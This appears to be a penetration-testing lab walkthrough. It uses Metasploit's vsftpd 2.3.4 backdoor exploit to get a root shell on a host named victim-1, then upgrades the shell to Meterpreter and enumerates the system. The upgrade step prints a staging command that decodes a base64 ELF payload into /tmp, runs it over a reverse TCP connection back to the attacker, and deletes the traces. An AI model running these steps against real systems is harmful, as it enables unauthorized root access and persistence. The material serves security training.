

# Enumerating System Information

<figure><figcaption></figcaption></figure>

```sh
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 192.27.251.3
rhosts => 192.27.251.3
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.27.251.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.27.251.3:21 - USER: 331 Please specify the password.
[+] 192.27.251.3:21 - Backdoor service has been spawned, handling...
[+] 192.27.251.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.27.251.2:43549 -> 192.27.251.3:6200) at 2024-01-17 10:29:41 +0000

/bin/bash -i
bash: cannot set terminal process group (10): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:~/vsftpd-2.3.4# 
```

```sh
root@victim-1:~/vsftpd-2.3.4# ^Z
Background session 1? [y/N]  y
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.27.251.2:43549 -> 192.27.251.3:6200 (192.27.251.3)

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.27.251.2:4433 
[*] Sending stage (985320 bytes) to 192.27.251.3
[*] Meterpreter session 2 opened (192.27.251.2:4433 -> 192.27.251.3:51530) at 2024-01-17 10:31:03 +0000
[-] Error: Unable to execute the following command: "echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towBv7AmgCABFRieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZtgywA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/aeWoQ.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/LBDtP' < '/tmp/aeWoQ.b64' ; chmod +x '/tmp/LBDtP' ; '/tmp/LBDtP' & sleep 2 ; rm -f '/tmp/LBDtP' ; rm -f '/tmp/aeWoQ.b64'"
[-] Output: "[1] 21"
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                  Connection
  --  ----  ----                   -----------                                  ----------
  1         shell cmd/unix                                                      192.27.251.2:43549 -> 192.27.251.3:6200 (192.27.251.3)
  2         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.27.251.3  192.27.251.2:4433 -> 192.27.251.3:51530 (192.27.251.3)

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : 192.27.251.3
OS           : Debian 9.5 (Linux 5.4.0-152-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

```sh
meterpreter > shell
Process 25 created.
Channel 1 created.
/bin/bash -i
bash: cannot set terminal process group (10): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:~/vsftpd-2.3.4# cd /
cd /
root@victim-1:/# pwd
/
pwd
root@victim-1:/# hostname
hostname
victim-1
root@victim-1:/# cat /etc/*issue
cat /etc/*issue
Debian GNU/Linux 9 \n \l

root@victim-1:/# cat /etc/*release
cat /etc/*release
PRETTY_NAME="Debian GNU/Linux 9 (stretch)"
NAME="Debian GNU/Linux"
VERSION_ID="9"
VERSION="9 (stretch)"
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
root@victim-1:/# uname -a
uname -a
Linux victim-1 5.4.0-152-generic #169-Ubuntu SMP Tue Jun 6 22:23:09 UTC 2023 x86_64 GNU/Linux
root@victim-1:/# uname -r
uname -r
5.4.0-152-generic
root@victim-1:/# env
env
LANG=C
USER=root
PWD=/
HOME=/root
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/system/bin:/system/sbin:/system/xbin
OLDPWD=/root/vsftpd-2.3.4
_=/usr/bin/env
root@victim-1:/# lscpu
lscpu
Architecture:          x86_64
CPU op-mode(s):        32-bit, 64-bit
Byte Order:            Little Endian
CPU(s):                48
On-line CPU(s) list:   0-47
Thread(s) per core:    1
Core(s) per socket:    48
Socket(s):             1
NUMA node(s):          1
Vendor ID:             AuthenticAMD
CPU family:            25
Model:                 1
Model name:            AMD EPYC 7713 64-Core Processor
Stepping:              1
CPU MHz:               1999.997
BogoMIPS:              3999.99
Hypervisor vendor:     KVM
Virtualization type:   full
L1d cache:             64K
L1i cache:             64K
L2 cache:              512K
L3 cache:              16384K
NUMA node0 CPU(s):     0-47
Flags:                 fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 ht syscall nx mmxext fxsr_opt pdpe1gb rdtscp lm rep_good nopl cpuid extd_apicid tsc_known_freq pni pclmulqdq ssse3 fma cx16 pcid sse4_1 sse4_2 x2apic movbe popcnt tsc_deadline_timer aes xsave avx f16c rdrand hypervisor lahf_lm cmp_legacy cr8_legacy abm sse4a misalignsse 3dnowprefetch osvw perfctr_core ssbd ibrs ibpb stibp vmmcall fsgsbase tsc_adjust bmi1 avx2 smep bmi2 rdseed adx smap clflushopt clwb sha_ni xsaveopt xsavec xgetbv1 xsaves clzero xsaveerptr wbnoinvd arat umip pku ospke vaes vpclmulqdq rdpid arch_capabilities
root@victim-1:/# df -h
df -h
Filesystem      Size  Used Avail Use% Mounted on
overlay         1.9T  1.6T  183G  90% /
tmpfs            64M     0   64M   0% /dev
tmpfs            48G     0   48G   0% /sys/fs/cgroup
shm              64M     0   64M   0% /dev/shm
/dev/sda        1.9T  1.6T  183G  90% /etc/hosts
udev             48G     0   48G   0% /dev/tty
tmpfs            48G     0   48G   0% /proc/acpi
tmpfs            48G     0   48G   0% /proc/scsi
tmpfs            48G     0   48G   0% /sys/firmware
root@victim-1:/# lsblk | grep sd
lsblk | grep sd
sda    8:0    0  1.9T  0 disk /etc/hosts
sdb    8:16   0  512M  0 disk [SWAP]
```

```sh
root@victim-1:/# dpkg -l
dpkg -l
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name                      Version                    Architecture Description
+++-=========================-==========================-============-===============================================================================
ii  adduser                   3.115                      all          add and remove users and groups
ii  apt                       1.4.8                      i386         commandline package manager
ii  base-files                9.9+deb9u5                 i386         Debian base system miscellaneous files
ii  base-passwd               3.5.43                     i386         Debian base system master password and group files
ii  bash                      4.4-5                      i386         GNU Bourne Again SHell
ii  binutils                  2.28-5                     i386         GNU assembler, linker and binary utilities
ii  bsdutils                  1:2.29.2-1+deb9u1          i386         basic utilities from 4.4BSD-Lite
ii  build-essential           12.3                       i386         Informational list of build-essential packages
ii  bzip2                     1.0.6-8.1                  i386         high-quality block-sorting file compressor - utilities
ii  coreutils                 8.26-3                     i386         GNU core utilities
ii  cpp                       4:6.3.0-4                  i386         GNU C preprocessor (cpp)
ii  cpp-6                     6.3.0-18+deb9u1            i386         GNU C preprocessor
ii  dash                      0.5.8-2.4                  i386         POSIX-compliant shell
ii  debconf                   1.5.61                     all          Debian configuration management system
ii  debian-archive-keyring    2017.5                     all          GnuPG archive keys of the Debian archive
ii  debianutils               4.8.1.1                    i386         Miscellaneous utilities specific to Debian
ii  diffutils                 1:3.5-3                    i386         File comparison utilities
ii  dirmngr                   2.1.18-8~deb9u2            i386         GNU privacy guard - network certificate management service
ii  dpkg                      1.18.25                    i386         Debian package management system
ii  dpkg-dev                  1.18.25                    all          Debian package development tools
ii  e2fslibs:i386             1.43.4-2                   i386         ext2/ext3/ext4 file system libraries
ii  e2fsprogs                 1.43.4-2                   i386         ext2/ext3/ext4 file system utilities
ii  fakeroot                  1.21-3.1                   i386         tool for simulating superuser privileges
ii  findutils                 4.6.0+git+20161106-2       i386         utilities for finding files--find, xargs
ii  g++                       4:6.3.0-4                  i386         GNU C++ compiler
ii  g++-6                     6.3.0-18+deb9u1            i386         GNU C++ compiler
ii  gcc                       4:6.3.0-4                  i386         GNU C compiler
ii  gcc-6                     6.3.0-18+deb9u1            i386         GNU C compiler
ii  gcc-6-base:i386           6.3.0-18+deb9u1            i386         GCC, the GNU Compiler Collection (base package)
ii  gnupg                     2.1.18-8~deb9u2            i386         GNU privacy guard - a free PGP replacement
ii  gnupg-agent               2.1.18-8~deb9u2            i386         GNU privacy guard - cryptographic agent
ii  gnupg-l10n                2.1.18-8~deb9u2            all          GNU privacy guard - localization files
ii  gpgv                      2.1.18-8~deb9u2            i386         GNU privacy guard - signature verification tool
ii  grep                      2.27-2                     i386         GNU grep, egrep and fgrep
ii  gzip                      1.6-5+b1                   i386         GNU compression utilities
ii  hostname                  3.18+b1                    i386         utility to set/show the host name or domain name
ii  init-system-helpers       1.48                       all          helper tools for all init systems
ii  iproute2                  4.9.0-1+deb9u1             i386         networking and traffic control tools
ii  iputils-ping              3:20161105-1               i386         Tools to test the reachability of network hosts
ii  libacl1:i386              2.2.52-3+b1                i386         Access control list shared library
ii  libalgorithm-diff-perl    1.19.03-1                  all          module to find differences between files
ii  libalgorithm-diff-xs-perl 0.04-4+b2                  i386         module to find differences between files (XS accelerated)
ii  libalgorithm-merge-perl   0.08-3                     all          Perl module for three-way merge of textual data
ii  libapt-pkg5.0:i386        1.4.8                      i386         package management runtime library
ii  libasan3:i386             6.3.0-18+deb9u1            i386         AddressSanitizer -- a fast memory error detector
ii  libassuan0:i386           2.4.3-2                    i386         IPC library for the GnuPG components
ii  libatomic1:i386           6.3.0-18+deb9u1            i386         support library providing __atomic built-in functions
ii  libattr1:i386             1:2.4.47-2+b2              i386         Extended attribute shared library
ii  libaudit-common           1:2.6.7-2                  all          Dynamic library for security auditing - common files
ii  libaudit1:i386            1:2.6.7-2                  i386         Dynamic library for security auditing
ii  libblkid1:i386            2.29.2-1+deb9u1            i386         block device ID library
ii  libbz2-1.0:i386           1.0.6-8.1                  i386         high-quality block-sorting file compressor library - runtime
ii  libc-bin                  2.24-11+deb9u3             i386         GNU C Library: Binaries
ii  libc-dev-bin              2.24-11+deb9u3             i386         GNU C Library: Development binaries
ii  libc6:i386                2.24-11+deb9u3             i386         GNU C Library: Shared libraries
ii  libc6-dev:i386            2.24-11+deb9u3             i386         GNU C Library: Development Libraries and Header Files
ii  libcap-ng0:i386           0.7.7-3+b1                 i386         An alternate POSIX capabilities library
ii  libcap2:i386              1:2.25-1                   i386         POSIX 1003.1e capabilities (library)
ii  libcc1-0:i386             6.3.0-18+deb9u1            i386         GCC cc1 plugin for GDB
ii  libcilkrts5:i386          6.3.0-18+deb9u1            i386         Intel Cilk Plus language extensions (runtime)
ii  libcomerr2:i386           1.43.4-2                   i386         common error description library
ii  libdb5.3:i386             5.3.28-12+deb9u1           i386         Berkeley v5.3 Database Libraries [runtime]
ii  libdebconfclient0:i386    0.227                      i386         Debian Configuration Management System (C-implementation library)
ii  libdpkg-perl              1.18.25                    all          Dpkg perl modules
ii  libelf1:i386              0.168-1                    i386         library to read and write ELF files
ii  libfakeroot:i386          1.21-3.1                   i386         tool for simulating superuser privileges - shared libraries
ii  libfdisk1:i386            2.29.2-1+deb9u1            i386         fdisk partitioning library
ii  libffi6:i386              3.2.1-6                    i386         Foreign Function Interface library runtime
ii  libfile-fcntllock-perl    0.22-3+b2                  i386         Perl module for file locking with fcntl(2)
ii  libgcc-6-dev:i386         6.3.0-18+deb9u1            i386         GCC support library (development files)
ii  libgcc1:i386              1:6.3.0-18+deb9u1          i386         GCC support library
ii  libgcrypt20:i386          1.7.6-2+deb9u3             i386         LGPL Crypto library - runtime library
ii  libgdbm3:i386             1.8.3-14                   i386         GNU dbm database routines (runtime version)
ii  libgmp10:i386             2:6.1.2+dfsg-1             i386         Multiprecision arithmetic library
ii  libgnutls30:i386          3.5.8-5+deb9u3             i386         GNU TLS library - main runtime library
ii  libgomp1:i386             6.3.0-18+deb9u1            i386         GCC OpenMP (GOMP) support library
ii  libgpg-error0:i386        1.26-2                     i386         library for common error values and messages in GnuPG components
ii  libhogweed4:i386          3.3-1+b2                   i386         low level cryptographic library (public-key cryptos)
ii  libidn11:i386             1.33-1                     i386         GNU Libidn library, implementation of IETF IDN specifications
ii  libisl15:i386             0.18-1                     i386         manipulating sets and relations of integer points bounded by linear constraints
ii  libitm1:i386              6.3.0-18+deb9u1            i386         GNU Transactional Memory Library
ii  libksba8:i386             1.3.5-2                    i386         X.509 and CMS support library
ii  libldap-2.4-2:i386        2.4.44+dfsg-5+deb9u2       i386         OpenLDAP libraries
ii  libldap-common            2.4.44+dfsg-5+deb9u2       all          OpenLDAP common files for libraries
ii  liblocale-gettext-perl    1.07-3+b1                  i386         module using libc functions for internationalization in Perl
ii  liblz4-1:i386             0.0~r131-2+b1              i386         Fast LZ compression algorithm library - runtime
ii  liblzma5:i386             5.2.2-1.2+b1               i386         XZ-format compression library
ii  libmnl0:i386              1.0.4-2                    i386         minimalistic Netlink communication library
ii  libmount1:i386            2.29.2-1+deb9u1            i386         device mounting library
ii  libmpc3:i386              1.0.3-1+b2                 i386         multiple precision complex floating-point library
ii  libmpfr4:i386             3.1.5-1                    i386         multiple precision floating-point computation
ii  libmpx2:i386              6.3.0-18+deb9u1            i386         Intel memory protection extensions (runtime)
ii  libncursesw5:i386         6.0+20161126-1+deb9u2      i386         shared libraries for terminal handling (wide character support)
ii  libnettle6:i386           3.3-1+b2                   i386         low level cryptographic library (symmetric and one-way cryptos)
ii  libnpth0:i386             1.3-1                      i386         replacement for GNU Pth using system threads
ii  libp11-kit0:i386          0.23.3-2                   i386         library for loading and coordinating access to PKCS#11 modules - runtime
ii  libpam-modules:i386       1.1.8-3.6                  i386         Pluggable Authentication Modules for PAM
ii  libpam-modules-bin        1.1.8-3.6                  i386         Pluggable Authentication Modules for PAM - helper binaries
ii  libpam-runtime            1.1.8-3.6                  all          Runtime support for the PAM library
ii  libpam0g:i386             1.1.8-3.6                  i386         Pluggable Authentication Modules library
ii  libpcre3:i386             2:8.39-3                   i386         Old Perl 5 Compatible Regular Expression Library - runtime files
ii  libperl5.24:i386          5.24.1-3+deb9u4            i386         shared Perl library
ii  libquadmath0:i386         6.3.0-18+deb9u1            i386         GCC Quad-Precision Math Library
ii  libreadline7:i386         7.0-3                      i386         GNU readline and history libraries, run-time libraries
ii  libsasl2-2:i386           2.1.27~101-g0780600+dfsg-3 i386         Cyrus SASL - authentication abstraction library
ii  libsasl2-modules:i386     2.1.27~101-g0780600+dfsg-3 i386         Cyrus SASL - pluggable authentication modules
ii  libsasl2-modules-db:i386  2.1.27~101-g0780600+dfsg-3 i386         Cyrus SASL - pluggable authentication modules (DB)
ii  libselinux1:i386          2.6-3+b3                   i386         SELinux runtime shared libraries
ii  libsemanage-common        2.6-2                      all          Common files for SELinux policy management libraries
ii  libsemanage1:i386         2.6-2                      i386         SELinux policy management library
ii  libsepol1:i386            2.6-2                      i386         SELinux library for manipulating binary security policies
ii  libsmartcols1:i386        2.29.2-1+deb9u1            i386         smart column output alignment library
ii  libsqlite3-0:i386         3.16.2-5+deb9u1            i386         SQLite 3 shared library
ii  libss2:i386               1.43.4-2                   i386         command-line interface parsing library
ii  libssl1.1:i386            1.1.0f-3+deb9u2            i386         Secure Sockets Layer toolkit - shared libraries
ii  libstdc++-6-dev:i386      6.3.0-18+deb9u1            i386         GNU Standard C++ Library v3 (development files)
ii  libstdc++6:i386           6.3.0-18+deb9u1            i386         GNU Standard C++ Library v3
ii  libsystemd0:i386          232-25+deb9u4              i386         systemd utility library
ii  libtasn1-6:i386           4.10-1.1+deb9u1            i386         Manage ASN.1 structures (runtime)
ii  libtinfo5:i386            6.0+20161126-1+deb9u2      i386         shared low-level terminfo library for terminal handling
ii  libubsan0:i386            6.3.0-18+deb9u1            i386         UBSan -- undefined behaviour sanitizer (runtime)
ii  libudev1:i386             232-25+deb9u4              i386         libudev shared library
ii  libustr-1.0-1:i386        1.0.4-6                    i386         Micro string library: shared library
ii  libuuid1:i386             2.29.2-1+deb9u1            i386         Universally Unique ID library
ii  linux-libc-dev:i386       4.9.110-3+deb9u6           i386         Linux support headers for userspace development
ii  login                     1:4.4-4.1                  i386         system login tools
ii  lsb-base                  9.20161125                 all          Linux Standard Base init script functionality
ii  make                      4.1-9.1                    i386         utility for directing compilation
ii  manpages                  4.10-2                     all          Manual pages about using a GNU/Linux system
ii  manpages-dev              4.10-2                     all          Manual pages about using GNU/Linux for development
ii  mawk                      1.3.3-17+b3                i386         a pattern scanning and text processing language
ii  mount                     2.29.2-1+deb9u1            i386         tools for mounting and manipulating filesystems
ii  multiarch-support         2.24-11+deb9u3             i386         Transitional package to ensure multiarch compatibility
ii  ncurses-base              6.0+20161126-1+deb9u2      all          basic terminal type definitions
ii  ncurses-bin               6.0+20161126-1+deb9u2      i386         terminal-related programs and man pages
ii  netbase                   5.4                        all          Basic TCP/IP networking system
ii  passwd                    1:4.4-4.1                  i386         change and administer password and group data
ii  patch                     2.7.5-1+deb9u1             i386         Apply a diff file to an original
ii  perl                      5.24.1-3+deb9u4            i386         Larry Wall's Practical Extraction and Report Language
ii  perl-base                 5.24.1-3+deb9u4            i386         minimal Perl system
ii  perl-modules-5.24         5.24.1-3+deb9u4            all          Core Perl modules
ii  pinentry-curses           1.0.0-2                    i386         curses-based PIN or pass-phrase entry dialog for GnuPG
ii  readline-common           7.0-3                      all          GNU readline and history libraries, common files
ii  rename                    0.20-4                     all          Perl extension for renaming multiple files
ii  sed                       4.4-1                      i386         GNU stream editor for filtering/transforming text
ii  sensible-utils            0.0.9+deb9u1               all          Utilities for sensible alternative selection
ii  sysvinit-utils            2.88dsf-59.9               i386         System-V-like utilities
ii  tar                       1.29b-1.1                  i386         GNU version of the tar archiving utility
ii  tzdata                    2018e-0+deb9u1             all          time zone and daylight-saving time data
ii  util-linux                2.29.2-1+deb9u1            i386         miscellaneous system utilities
ii  xz-utils                  5.2.2-1.2+b1               i386         XZ-format compression utilities
ii  zlib1g:i386               1:1.2.8.dfsg-5             i386         compression library - runtime
```
